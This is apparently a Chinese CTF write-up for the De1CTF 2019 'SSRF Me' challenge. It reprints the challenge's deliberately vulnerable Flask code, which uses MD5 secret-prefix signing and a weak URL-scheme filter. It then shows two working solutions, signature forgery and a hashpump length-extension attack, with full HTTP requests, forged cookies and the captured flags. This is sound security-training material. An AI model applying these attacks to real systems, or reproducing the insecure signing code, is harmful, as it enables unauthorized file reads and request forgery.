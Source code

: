 ```yaml
---
title: buuoj刷题记录4
date: 2019-12-28 21:16:16
tags:
 - web 
 - ctf  
 - buuctf
 - De1CTF
categories: 
 - 刷题记录
---
```

## [De1CTF 2019]SSRF Me

### 0x00 基础

大致了解flask框架，[CVE-2019-9948](http://www.security-database.com/detail.php?alert=CVE-2019-9948)：`urlopen（）可包含本地文件`，[哈希长度扩展攻击](https://www.freebuf.com/articles/web/31756.html) 。

<!--more-->

### 0x01 分析

题目提示 `flag在./flag.txt中`。

打开链接查看源码，在buuoj的复现过程中，查看源码只拿到一行，需要自己一个一个的敲回车改格式。


```python
#! /usr/bin/env python
#encoding=utf-8
from flask import Flask
from flask import request
import socket
import hashlib
import urllib
import sys
import os
import json

reload(sys)
sys.setdefaultencoding('latin1')

app = Flask(__name__)

secert_key = os.urandom(16)

class Task:
    def __init__(self, action, param, sign, ip):
        self.action = action
        self.param = param
        self.sign = sign
        self.sandbox = md5(ip)
        if(not os.path.exists(self.sandbox)):          #SandBox For Remote_Addr
            os.mkdir(self.sandbox)

    def Exec(self):
        result = {}
        result['code'] = 500
        if (self.checkSign()):
            if "scan" in self.action:
                tmpfile = open("./%s/result.txt" % self.sandbox, 'w')
                resp = scan(self.param)
                if (resp == "Connection Timeout"):
                    result['data'] = resp
                else:
                    print(resp)
                    tmpfile.write(resp)
                    tmpfile.close()
                result['code'] = 200
            if "read" in self.action:
                f = open("./%s/result.txt" % self.sandbox, 'r')
                result['code'] = 200
                result['data'] = f.read()
            if result['code'] == 500:
                result['data'] = "Action Error"
        else:
            result['code'] = 500
            result['msg'] = "Sign Error"
        return result

    def checkSign(self):
        if (getSign(self.action, self.param) == self.sign):  #对secert_key、param、action进行MD5运算  的结果与self.sign作比较
            return True
        else:
            return False

#generate Sign For Action Scan.
@app.route("/geneSign", methods=['GET', 'POST'])
def geneSign():
    param = urllib.unquote(request.args.get("param", ""))  # urllib.unquote 相当与  urldecode
    action = "scan"
    return getSign(action, param)

@app.route('/De1ta',methods=['GET','POST'])
def challenge():
    action = urllib.unquote(request.cookies.get("action"))
    param = urllib.unquote(request.args.get("param", ""))
    sign = urllib.unquote(request.cookies.get("sign"))
    ip = request.remote_addr
    if(waf(param)):
        return "No Hacker!!!!"
    task = Task(action, param, sign, ip)
    return json.dumps(task.Exec())
@app.route('/')
def index():
    return open("code.txt","r").read()

def scan(param):
    socket.setdefaulttimeout(1)
    try:
        return urllib.urlopen(param).read()[:50]
    except:
        return "Connection Timeout"

def getSign(action, param):
    return hashlib.md5(secert_key + param + action).hexdigest() #对secert_key、param、action进行MD5摘要签名

def md5(content):
    return hashlib.md5(content).hexdigest()

def waf(param):
    check=param.strip().lower()
    if check.startswith("gopher") or check.startswith("file"):
        return True
    else:
        return False

if __name__ == '__main__':
    app.debug = False
    app.run(host='0.0.0.0',port=80)
```

分析代码，总共三条路由，`@app.route('/')`显示代码，`@app.route("/geneSign", methods=['GET', 'POST'])`生成签名，`@app.route('/De1ta',methods=['GET','POST'])`获取参数并执行`Exec()`函数

大概思路就是在 /De1ta 中 get param ，cookie action sign 去读取 flag.txt，其中，`param=flag.txt`，`action` 中要含有 `read` 和 `scan`，且 `sign=md5(secert_key + param + action)`

在`getSign`函数中，生成MD5签名的方式是`secert_key + param + action`其中`action=scan`，`secert_key`未知`param`可以控制。

在`@app.route('/De1ta',methods=['GET','POST'])`中，`cookies`中的`action`必须为`readscan`，sign为

`secert_key + param + scan`签名后的md5，使`param=flag.txtread`直接获取到签名后的md5。

### 0x02 开始操作

先获取到签名后的md5

访问`http://35905e74-da20-4673-b384-8c4686fa85c2.node3.buuoj.cn/geneSign?param=flag.txtread`

返回为`0155303824bd0738b4ed0a52b7446c08`


```
GET /De1ta?param=flag.txt HTTP/1.1
Host: 35905e74-da20-4673-b384-8c4686fa85c2.node3.buuoj.cn
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:71.0) Gecko/20100101 Firefox/71.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cookie: action=readscan; sign=0155303824bd0738b4ed0a52b7446c08 
```

结果

`{"code": 200, "data": "flag{04726554-0f9f-47f4-9c1a-114e21e68594}\n"}`

### 0x02 另一种解法

使用hashdump 利用哈希长度扩展攻击，

已知`（secret+flag.txt+scan）=40ad0bf20e771e768e9305810410c1b9`

求`（secret+flag.txt+scanread）`

经过测试密钥是16位 加上scanread是24位。

```
root@kali:/tmp/HashPump# hashpump 
Input Signature: 40ad0bf20e771e768e9305810410c1b9
Input Data: scan   #写上原有数据
Input Key Length: 24    #密钥长度+数据长度+拓展的数据长度
Input Data to Add: read   #拓展的数据
46a6ff04f7bede58de30e93410935976 #生成的MD5
scan\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xe0\x00\x00\x00\x00\x00\x00\x00read 
```

`burp suite`提交的数据

```
GET /De1ta?param=flag.txt HTTP/1.1
Host: 6e84dbce-e560-4f27-86f2-54cb202c45fe.node3.buuoj.cn
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:71.0) Gecko/20100101 Firefox/71.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cookie:action=scan%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%e0%00%00%00%00%00%00%00read;sign=46a6ff04f7bede58de30e93410935976

```

结果`{"code": 200, "data": "flag{6cd67cbd-fdfb-45cc-8654-52766ef0635a}\n"}`

